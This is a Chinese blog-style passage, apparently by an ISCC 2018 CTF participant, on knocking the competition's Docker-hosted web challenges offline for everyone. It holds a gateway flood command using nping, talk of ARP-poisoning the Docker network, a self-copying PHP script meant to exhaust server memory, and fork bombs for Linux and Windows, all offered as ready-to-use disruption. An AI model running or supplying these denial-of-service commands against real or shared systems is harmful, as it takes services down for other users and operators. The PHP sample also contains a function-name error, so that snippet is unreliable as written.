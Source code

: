 试着扫了ISCC的内网，扫描出14个IP，应该是14个docker，刚好对应14道Web题目：[![](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/2.png)](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/2.png)

### <a class="reference-link" name="%E6%94%BB%E5%87%BB%E7%BD%91%E5%85%B3"></a>攻击网关

我想着如果要想让所有的web挂掉，那么可以通过攻击网关的方式来达成，因为比赛环境用docker，所以我们可以针对docker网关进行攻击，这样docker内的流量就出不去了，选手也就无法正常访问题目。于是乎我们可以进行arp攻击docker网络，将所有出站流量全部丢弃，或者DOS网关IP，我在ISCC的题目中发现装有nmap，那么我就可以使用命令

```
nping --tcp-connect -rate=90000 -c 900000 -q 172.17.42.1 &amp;
```

### <a class="reference-link" name="%E4%B8%8D%E6%AD%BB%E9%A9%AC"></a>不死马

**基础知识**
<li>1、ignore_user_abort
<pre><code class="lang-php hljs">int ignore_user_abort ([ bool $value ] )
</code></pre>
用于设置客户端断开连接时，是否中断脚本的执行
</li><li>2、set_time_limit
<pre><code class="lang-php hljs">bool set_time_limit ( int $seconds )
</code></pre>
用于设置允许脚本运行的最大时间，单位为秒。如果超过了此设置，脚本返回一个致命的错误。默认值为30秒，或者是在php.ini中 **max_execution_time** 的值。**如果设置为0，没有时间方面的限制。**当此函数被调用时，**set_time_limit()**会从零开始重新启动超时计数器。换句话说，如果超时默认是30秒，在脚本运行了了25秒时调用 **set_time_limit(20)** ，那么脚本在超时之前可运行总时间为45秒。
</li>
```
&lt;?php
    set_time_limit(0);
    ignore_user_abort(true);
    while(1)`{`
        file_put_contents(randstr().'.php',file_get_content(__FILE__));
        file_get_contents("http://127.0.0.1/");
    `}`
?&gt;
```

这个脚本说是执行的后内存爆炸，phpGG了，严重点的话，Docker也GG。但我问过作者，他也没试过，只是夸张的说辞。然后我修改了一些，就在在while的最后一行再把生成的新文件include进来，效果会好一些，但是达到PHP内存上限时，PHP程序会终止运行。

<a class="reference-link" name="%E8%B5%84%E6%BA%90%E8%80%97%E5%B0%BD"></a>**资源耗尽**

linux环境

```
:()`{` :|: &amp; `}`;:
```

[![](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/5.png)](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/5.png)windows环境

```
%0 | %0
```
